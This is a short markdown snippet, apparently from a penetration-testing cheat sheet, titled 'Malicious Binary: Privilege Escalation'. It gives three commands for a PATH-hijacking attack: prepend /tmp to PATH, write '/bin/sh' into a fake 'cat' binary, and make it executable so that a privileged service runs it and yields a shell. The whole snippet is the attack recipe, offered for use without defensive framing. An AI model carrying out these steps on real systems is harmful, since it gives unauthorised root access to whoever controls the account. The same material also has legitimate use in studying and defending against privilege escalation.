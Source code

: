 # Malicious Binary: Privilege Escalation

1. Add current working directory to PATH

        export PATH=/tmp:$PATH
        cd /tmp/

2. Create a malicious binary file with desired filename, e.g., `cat`

        echo '/bin/sh' > cat

3. Give execute permissions to the malicious binary, and let it get executed by a privileged service

        chmod +x cat
